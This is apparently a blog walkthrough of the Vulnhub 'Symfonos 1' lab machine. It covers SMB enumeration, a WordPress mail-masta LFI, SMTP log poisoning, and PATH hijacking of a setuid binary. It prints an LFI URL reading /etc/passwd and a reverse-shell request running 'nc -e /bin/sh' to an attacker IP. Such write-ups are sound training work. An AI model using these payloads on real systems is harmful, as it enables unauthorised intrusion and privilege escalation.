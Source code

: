 ```yaml
---
layout: PostSimple
date: 
title:     "Vulnhub - Symfonos 1"
tags: ['wordpress','easy','log-poisoning','smb','path','lfi','setuid']
---
```


Today, We are going to pwn Symfonos 1 by Zayotic from Vulnhub

## Description:

```
Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

    Name: symfonos: 1
    Difficulty: Beginner
    Tested: VMware Workstation 15 Pro & VirtualBox 6.0
    DHCP Enabled

Note: You may need to update your host file for symfonos.local

```
Download Link : <https://www.vulnhub.com/entry/symfonos-1,322/>


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:42:7C:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 3h27m50s, median: 23s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2020-03-08T00:09:12-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T06:09:12
|_  start_date: N/A

```

## SMB:

I started with ``SMB`` we can use ``smbmap`` to see is there any files available.
>smbmap - SMB enumeration tool

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/1.png)
```
-H HOST
              IP of host
```

So ``helios`` and ``anonymous`` are there and also ``attention.txt`` file.

There is a tool called ``smbclient`` which helps to access to the server.

>smbclient - ftp-like client to access SMB/CIFS resources on servers

First I tried with ``helios`` I can't login without password, So next is ``anonymous`` which I get logged in without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/2.png)<br/>
Downloaded the ``attention.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/3.png)<br/>
This file contains a warning to the users to not use these password.

I tired again ``smbclient`` with ``helios`` with these 3 passwords.

> smbclient //192.168.1.101/helios -U helios

> -U, --user=USERNAME                       Set the network username

I logged in with ``qwerty`` and found 2 files, Downloaded them to my machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/4.png)

``research.txt``

```
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
```
``todo.txt``

```
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
``todo.txt`` told us to work on ``/h3l105`` it may be a directory. So I checked it in the webpage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/5.png)

So Its a ``Wordpress`` site. We can use ``wpscan`` to enumerate users and plugins.

Found 2 plugins, I searched for any exploits available for them.
>wpscan --url http://symfonos.local/h3l105/ --enumerate p

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/6.png)<br/>
Found this LFI 
> https://www.exploit-db.com/exploits/40290

> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/7.png)

Now time to change LFI to RCE, we can do it by ``Log poisoning``so I tried to access ``/var/log/apache2/access.log`` but its not working.
We know port ``SMTP`` is open.

>The Simple Mail Transfer Protocol is a communication protocol for electronic mail transmission.

So the user might have a mail and I found [SMTP Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

Found users mail log ``/var/mail/helios``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/8.png)

By following the article, Payload is injected <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/9.png)

Now we can get reverse shell
> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/sh%20192.168.1.103%201234

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/10.png)

## Privilege Escalation:

Uploaded my Enumeration Script to the machine and found a ``SETUID`` file.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/11.png)

When I run the file it prints the header of the webpage, and I did ``strings`` found ``curl`` is working and its path is not fully defined.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/12.png)

So I checked where is ``curl`` and its is in ``/usr/bin/curl``.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/15.png)

So we can create a file to give us shell and placed it in ``/tmp`` and name it as ``curl`` and change the PATH to ``/tmp``.

This command will make the PATH to search in ``/tmp`` first
> export PATH=/tmp:$PATH

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/13.png)

Once I execute the ``statuscheck`` the ``curl`` checks in ``/tmp`` first and it will make use of our file and give us root.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/14.png)

Rooted!!